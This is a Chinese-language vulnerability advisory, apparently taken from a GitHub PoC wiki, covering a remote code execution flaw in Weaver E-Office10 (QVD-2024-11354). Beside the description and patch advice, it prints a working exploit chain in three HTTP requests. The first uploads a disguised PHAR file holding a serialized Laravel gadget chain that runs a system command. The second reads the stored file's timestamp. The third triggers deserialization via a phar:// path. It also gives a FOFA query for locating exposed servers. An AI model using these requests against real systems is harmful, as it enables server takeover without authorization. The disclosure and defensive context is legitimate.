

# 泛微E-Office10 远程代码执行漏洞(QVD-2024-11354)预警

# 漏洞描述

泛微E-Office10存在远程代码执行漏洞，攻击者可利用该漏洞获取服务器控制权限。该漏洞利用简单，无需前置条件，建议受影响的客户尽快修复漏洞。漏洞的关键在于系统处理上传的PHAR文件时存在缺陷。攻击者能够上传伪装的PHAR文件到服务器，利用PHP处理PHAR文件时自动进行的反序列化机制来触发远程代码执行。

# 影响范围

v10.0_20180516 <  E-Office10  < v10.0_20240222

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="eoffice_loading_tip" && body="eoffice10"

POC/EXP（上传phar序列化文件，获取响应体中attachment_id的值）：

POST /eoffice10/server/public/api/attachment/atuh-file HTTP/1.1
Host: 127.0.0.1:8010
Content-Type: multipart/form-data; boundary=7188335fc2b1af077684a437664d25b9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5829.201 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*

--7188335fc2b1af077684a437664d25b9
Content-Disposition: form-data; name="Filedata"; filename="register.inc"
Content-Type: image/jpeg

{{unquote("<?php __HALT_COMPILER\x28\x29; ?>\x0d\x0a$\x01\x00\x00\x01\x00\x00\x00\x11\x00\x00\x00\x01\x00\x00\x00\x00\x00\xee\x00\x00\x00O:40:\"Illuminate\\Broadcasting\\PendingBroadcast\":2:\x7bs:9:\"\x00*\x00events\";O:25:\"Illuminate\\Bus\\Dispatcher\":1:\x7bs:16:\"\x00*\x00queueResolver\";s:6:\"system\";\x7ds:8:\"\x00*\x00event\";O:38:\"Illuminate\\Broadcasting\\BroadcastEvent\":1:\x7bs:10:\"connection\";s:6:\"whoami\";\x7d\x7d\x08\x00\x00\x00test.txt\x05\x00\x00\x00*\x1f\xa6a\x05\x00\x00\x00\xe9\x8f\xb1\xbb\xb4\x01\x00\x00\x00\x00\x00\x00tesat\xe5\xe4f7H\xe3\x9e\xa8\xf1>\xec\x90\xec\xc1\x10\xdfzw\x8f\xe4\x02\x00\x00\x00GBMB")}}
--7188335fc2b1af077684a437664d25b9--

POC/EXP（利用携带attachment_id的值，获取文件创建的时间戳）：

POST /eoffice10/server/public/api/wps/v1/3rd/file/history HTTP/1.1
Host: 127.0.0.1:8010
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5829.201 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
x-weboffice-file-id: ac91ae5fbfc621c8bca370b09ac9b435

POC/EXP（利用Phar:// 伪协议读取phar序列化文件的命令执行结果）：

POST /eoffice10/server/public/api/dingtalk/dingtalk-move?imgs=phar://../../../../attachment/2024/04/08/ac91ae5fbfc621c8bca370b09ac9b435/a6a7663b7788686b5c22ad6e5d9c43cd.inc HTTP/1.1
Host: 127.0.0.1:8010
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5829.201 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

# 修复方案

**官方修复：**

临时缓解方案

如非必要，不要将 受影响系统 放置在公网上。或通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。

升级修复方案

官方已发布新版本修复漏洞，建议尽快使用服务管理平台升级到最新版或访问官网下载离线升级补丁（https://www.e-office.cn/）获取版本升级安装包或补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
